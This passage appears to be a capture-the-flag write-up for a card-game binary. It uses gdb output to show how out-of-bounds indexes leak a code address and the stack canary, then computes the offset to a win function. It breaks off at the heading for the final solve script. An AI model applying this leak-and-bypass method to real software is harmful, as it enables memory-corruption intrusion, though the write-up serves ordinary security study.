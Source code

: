 ```sh
0x7fffffffdbb0: 0x0000000000000000      0x00007fffffffdc70
0x7fffffffdbc0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbd0: 0x0000000000000000      0x00007ffff7f9e280
0x7fffffffdbe0: 0x0000000000000000      0x0000000000000000
0x7fffffffdbf0: 0x00007ffff7ffd000      0x00007ffff7e4bbc9
0x7fffffffdc00: 0x00007ffff7f9f780      0x00007ffff7e4c053
0x7fffffffdc10: 0x000000000000001e      0x0000555555556030
0x7fffffffdc20: 0x00007ffff7f9f780      0x00007ffff7e40cfa
0x7fffffffdc30: 0x00007fffffffdf68      0x00007ffff7e0bd14
0x7fffffffdc40: 0x00007fffffffdf68      0x00007fffffffde40
0x7fffffffdc50: 0x00007fffffffdf68      0x00007ffff7ffe2d0
0x7fffffffdc60: 0x000000000000000a      0x00005555555553f1
gef➤  x/10gx $sp
0x7fffffffdc70: 0x0000003400000005      0x0000000000000000
0x7fffffffdc80: 0x5049933c3c3399bc      0x2d2c06c91180ab90
0x7fffffffdc90: 0x5fad3441288e7eda      0x62550ac03a9d31a8
0x7fffffffdca0: 0x0a8204627d647dad      0x4de13c086377b86f
0x7fffffffdcb0: 0x6954d30e0a27501c      0x564c1b9800debacf
gef➤  x/i 0x00005555555553f1
=> 0x5555555553f1 <game+222>:   mov    eax,DWORD PTR [rbp-0x1d0]
gef➤  

```

```sh
0x7fffffffdc70: 0x0000003400000005      0x0000000000000000
0x7fffffffdc80: 0x5049933c3c3399bc      0x2d2c06c91180ab90
```

Looking here we can see where the random card values start. Counting up 3 addresses we see the address we set the breakpoint on, which examianing with x/i which gives us the address as an instruction, we see that cards[-3] will give us game+222. We have our leak and can use this to calculate the address of win function.

```sh
0x7fffffffdba0: 0x00007fffffffdbb0      0xe15d5cb66eeba700
```

Looking up the stack, the value 0xe15d5cb66eeba700 jumps out as the canary because it is null terminated. Using the canary function in gdb we can confirm this is the canary.

```sh
gef➤  canary
[+] The canary of process 24230 is at 0x7ffff7dc8768, value is 0xe15d5cb66eeba700
```
So now we know that cards[-27] will give us the canary. Next we need the offset between game+222 and our win fucntion.

```sh
gef➤  x/x *win
0x555555555239 <win>:   0x20ec8148e5894855
```

0x00005555555553f1 - 0x555555555239 = 440

Great! Now lets put it all together. 
Final solve script:

